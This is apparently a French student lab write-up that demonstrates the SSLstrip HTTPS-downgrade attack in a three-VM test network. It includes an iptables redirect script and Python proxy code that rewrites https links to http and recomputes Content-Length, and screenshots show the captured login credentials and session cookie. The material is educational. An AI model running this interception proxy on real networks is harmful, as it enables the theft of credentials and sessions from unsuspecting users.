 # Attaque SSLstrip

L'attaque SSLstrip a été présentée pour la première fois par Moxie à la 
Blackhat de 2009. 
Cette attaque consiste à remplacer dans les requêtes HTTP, toutes les références
à des URL pointant vers des liens HTTPS par leurs version HTTP. 
Cette attaque était efficace notamment lorsque seule la page de login était 
sécurisée en HTTPS mais que le reste du site utilisait le protocole HTTP.

----------------------------------------------

# Configuration de l'environnement de test

L'environnement de test consiste en trois machines virtuelles :

- grave, la machine cliente et victime.

- opeth, la machine serveur.

- immortal, la machine attaquante, positionnée en homme du milieu.

Voici la topologie des machines mise en place, 
[topology](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/topology) :

```
### twolans
#
#  opeth - [s1] - immortal - [s2] - grave
#
#
#

# switches

SWITCH s1
SWITCH s2
HOST alpinex   grave    s2
HOST debian10  immortal s1 s2
HOST debian10  opeth    s1
```

Cette topologie n'est pas forcément réaliste car rare sont les cas où l'attaquant
est dans le réseau du client attaqué.

Toutes les configurations initiales des machines se trouvent dans le fichier
__"start.sh"__ de chaque dossier correspondant aux machines.

## Machine "grave" (147.210.13.2)

Cette machine utilise l'environnement graphique de la distribution Linux Alpine.
Le navigateur firefox est utilisé pour la démonstration.

## Machine "opeth" (147.210.12.1)

Cette machine héberge un serveur HTTP(s) Nginx sur le port 80 et 443. 
Le certificat utilisé pour les connections HTTPS a été généré avec openssl :

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

Le serveur héberge deux pages :

  - une page index.php que l'on accéde en HTTP et présentant un formulaire de login.

  - une page secure.php que l'on accéde en HTTPS depuis la page index.php.

## Machine "immortal" (147.210.12.2 - 147.210.13.1)

C'est sur cette machine que se trouve le PoC de l'attaque, dans le fichier 
"/mnt/host/attack.sh". 
Cette VM est configuré pour forwarder les paquets entre opeth et grave.


------------------------------------------------------

# Démo

Pour lancer l'environnement de test, il faut lancer la commande suivante
(on aura récupéré au préalable le dépôt qemunet) :

```
$ ./qemunet/qemunet.sh -x -S sslstrip
```

À partir de là, les trois machines sont lancées.

## Étape 1 : avant l'attaque

Lorsque l'attaque n'est pas encore lancée, nous pouvons voir sur la machine grave,
que tout se passe normalement et que la requête POST passe bien en HTTPS 
(immortal est donc incapable de voir les identifiants envoyés) :

![screen1](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen1.png)

L'encadré rouge montre bien que le POST est effectué en HTTPS, sur la page secure.php.

![screen2](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen2.png)

Nous arrivons alors sur la page secure.php, en HTTPS : immortal n'a pas pût voir
nos échanges sur cette page sécurisée.

![screen3](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen3.png)

## Etape 2 : lancement de l'attaque

Comme expliqué précédement, pour lancer l'attaque, il faut exécuter le fichier 
__"/mnt/host/attack.sh"__ depuis immortal : 
[attack.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/immortal/attack.sh).
Voici son contenu :

```
PROXY_PORT=4242

iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PROXY_PORT

/mnt/host/sslstrip.py $PROXY_PORT
```
On peut constater que les flux TCP à destination du port 80 (HTTP) sont redirigées 
vers le port d'écoute du proxy qui est chargé d'analyser et traiter les requêtes.

Nous pouvons maintenant lancer l'attaque depuis la machine immortal :

![screen4](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen4.png)

### Explication du code

#### Réception des requêtes

Lors de la réception de requêtes, il s'agit de savoir si l'on doit :

- fermer la connexion (le client ou le serveur a fermé la connection)
- établir une connexion https, dans le cas où le client demande la page 
[secure.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/secure.php)
- établir une connexion http, dans le cas où le client demande la page d'accueil 
[index.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/index.php)

Le code est dans le fichier 
[sslstrip.py](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/immortal/sslstrip.py)

```python
def __recv(self, csock):
        fw_sock = self.__csockets[csock]
        data = csock.recv(BUFFER_SIZE)
        if len(data) == 0:
            self.__close_conn(csock)
            self.__close_conn(fw_sock)
        else:
            print(data)

            if fw_sock is None:
                m = re.search(b'(GET|POST) (\S+) HTTP/\d.\d', data)
                if m is not None and m.group(2) in HTTPS_URL:
                    self.__new_https_conn(csock)
                else:
                    self.__new_http_conn(csock)
                fw_sock = self.__csockets[csock]
            data = self.__replace_https_to_http(data)
            data = self.__replace_content_length(data)
            fw_sock.send(data)

```

A la fin, on transforme tous les liens __https__ trouvé en __http__ et on 
recalcule la taille de la requête (entête Content-Length).

#### Transformation des liens

```python
def __replace_https_to_http(self, data):
        return re.sub(b'https://', b'http://', data)

def __replace_content_length(self, data):
    try:
        idx = data.index(b"\r\n\r\n")
        length = len(data) - idx - 4
        return re.sub(b'Content-Length: (\d+)',
                      b'Content-Length: %d' % length, data, 1)
    except:
        return data
```

La transformation se fait à l'aide d'une expression régulière qui remplace 
__https://__ par __http://__. 
La deuxième fonction recalcule le Content-Length en recherchant le début des 
données (après la séquence "\r\n\r\n").

## Etape 3 : pendant l'attaque

Lorsque l'attaque est lancée, on peut voir que tous les liens https:// sont 
remplacés par http://. 
La machine immortal est donc capable d'intercepter les échanges réalisés sur la
page secure.php. 
Ici on voit dans l'encadré rouge, que le lien https:// a bien été remplacé par 
un lien non sécurisé http:// :

![screen5](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen5.png)

Nous constatons que nous arrivons sur la page secure.php en HTTP : notre 
navigation n'est pas sécurisée !

![screen6](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen6.png)

La machine immortal a été capable de capturer non seulement les identifiants du 
formulaire, mais également le cookie de session :

![screen7](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen7.png)
